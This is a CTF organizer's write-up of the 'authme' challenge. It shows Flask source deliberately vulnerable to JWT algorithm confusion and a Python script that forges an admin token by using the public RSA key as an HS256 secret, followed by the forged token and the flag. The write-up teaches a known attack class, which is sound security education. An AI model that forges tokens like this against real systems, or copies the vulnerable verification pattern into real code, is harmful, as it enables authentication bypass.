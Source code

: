 ```yaml
---
layout: post
title: "0x0G CTF: Authme (Author Writeup)"
category: Security
date: 2021-08-12
tags:
  - CTF
  - 0x0G
---
```


0x0G is Google's annual "Hacker Summer Camp" event.  *Normally* this would be in
Las Vegas during the week of DEF CON and Black Hat, but well, pandemic rules
apply.  I'm one of the organizers for the CTF we run during the event, and I
thought I'd write up solutions to some of my challenges here.

The first such challenge is `authme`, a web/crypto challenge.  The description
just wants to know if you can auth as admin and directs you to a website.  On
the website, we find a link to the source code, to an RSA public key, and a
login form.

<!--more-->

Attempting to login, we are told to try "test/test" for demo purposes.  Using
"test/test", we are logged in, but it just says "Welcome, test" -- not the
exciting output we were hoping for.  Let's examine the source:

```python
import flask
import jwt
import collections
import logging
import hashlib


app = flask.Flask(__name__)
app.logger.setLevel(logging.INFO)

KeyType = collections.namedtuple(
        'KeyType',
        ('algo', 'pubkey', 'key'),
        defaults=(None, None))

COOKIE_NAME = 'authme_session'

DEFAULT_KEY = 'k2'
KEYS = {
        'k1': KeyType(
            'HS256',
            key=open('k1.txt').read().strip()),
        'k2': KeyType(
            'RS256',
            key=open('privkey.pem').read().strip(),
            pubkey=open('pubkey.pem').read().strip()),
        }

FLAG = open('flag.txt', 'r').read()


def jwt_encode(payload, kid=DEFAULT_KEY):
    key = KEYS[kid]
    return jwt.encode(
            payload,
            key=key.key,
            algorithm=key.algo,
            headers={'kid': kid})


def jwt_decode(data):
    header = jwt.get_unverified_header(data)
    kid = header.get('kid')
    if kid not in KEYS:
        raise jwt.InvalidKeyError("Unknown key!")
    return jwt.decode(
            data,
            key=(KEYS[kid].pubkey or KEYS[kid].key),
            algorithms=['HS256', 'RS256'])


def get_user_info():
    sess = flask.request.cookies.get(COOKIE_NAME)
    if sess:
        return jwt_decode(sess)
    return None


@app.route("/")
def home():
    try:
        user = get_user_info()
    except Exception as ex:
        app.logger.info('JWT error: %s', ex)
        return flask.render_template(
                "index.html",
                error="Error loading session!")
    return flask.render_template(
            "index.html",
            user=user,
            flag=FLAG,
            )


@app.route("/login", methods=['POST'])
def login():
    u = flask.request.form.get('username')
    p = flask.request.form.get('password')
    if u == "test" and p == "test":
        # do login
        resp = flask.redirect("/")
        resp.set_cookie(COOKIE_NAME, jwt_encode({"username": u}))
        return resp
    # render login error page
    return flask.render_template(
            "index.html",
            error="Invalid username/password.  Try test/test for testing!"
            )


@app.route("/pubkey/<kid>")
def get_pubkey(kid):
    if kid in KEYS:
        key = KEYS[kid].pubkey
        if key is not None:
            resp = flask.make_response(key)
            resp.headers['Content-type'] = 'text/plain'
            return resp
    flask.abort(404)


@app.route("/authme.py")
def get_authme():
    contents = open(__file__).read()
    resp = flask.make_response(contents)
    resp.headers['Content-type'] = 'text/plain'
    return resp


def prepare_key(unused_self, k):
    if k is None:
        raise ValueError('Missing key!')
    if len(k) < 32:
        return jwt.utils.force_bytes(hashlib.sha256(k).hexdigest())
    return jwt.utils.force_bytes(k)


jwt.algorithms.HMACAlgorithm.prepare_key = prepare_key
```

A few things should stand out to you:

- The flag is passed to the template no matter what, so it's probably some
  simple template logic to determine whether or not to show the flag.
- The only username and password accepted for login is a hard-coded value of
  "test" and "test".
- We see that [JWTs](https://jwt.io/introduction) are being used to manage user
  sessions.  These are stored in a session cookie, creatively called
  `authme_session`.
- There's multiple keys and algorithms supported.

The RSA public key is provided, but there's no indication that it's a weak key
in any way.  (It's not, as far as I know...)  When verifying the JWT, it's worth
noting that *rather than passing the algorithm for the specific key, the library
is passed both RS256 and HS256*.  This means that both keys can be used with
both algorithms when *decoding* the session.

Using an HMAC-SHA-256 key as an RSA key is probably not helpful (especially if
you don't know the HMAC key), but what about the reverse -- using an RSA key as
an HMAC-SHA-256 key?  Examining the code, it shows that the **public** key is
passed in to the verification function.  Maybe we can sign a JWT using the
public RSA key, but the `HS256` algorithm in the JWT?

```python
import jwt

def prepare_key(unused_self, k):
    if k is None:
        raise ValueError('Missing key!')
    if len(k) < 32:
        return jwt.utils.force_bytes(hashlib.sha256(k).hexdigest())
    return jwt.utils.force_bytes(k)

jwt.algorithms.HMACAlgorithm.prepare_key = prepare_key

key = open('k2', 'rb').read()
print(jwt.encode({"username": "admin"}, key=key, algorithm='HS256',
    headers={"kid": "k2"}))
```

`prepare_key` is copied directly from the `authme` source.  This prints *a* JWT,
but does it work?

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6ImsyIn0.eyJ1c2VybmFtZSI6ImFkbWluIn0.4DQoSTcZtY1nSzclaEEcp03_C51yR7tneNzYWm6QDuc
```

If we put this into our session cookie in our browser and refresh, we're
presented with the reward:

```
0x0g{jwt_lots_of_flexibility_to_make_mistakes}
```

This is a vulnerability called JWT Algorithm Confusion.  See
[Critical vulnerabilities in JSON Web Token libraries](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/), [JSON Web Token attacks and vulnerabilities](https://www.netsparker.com/blog/web-security/json-web-token-jwt-attacks-vulnerabilities/) for more about this.
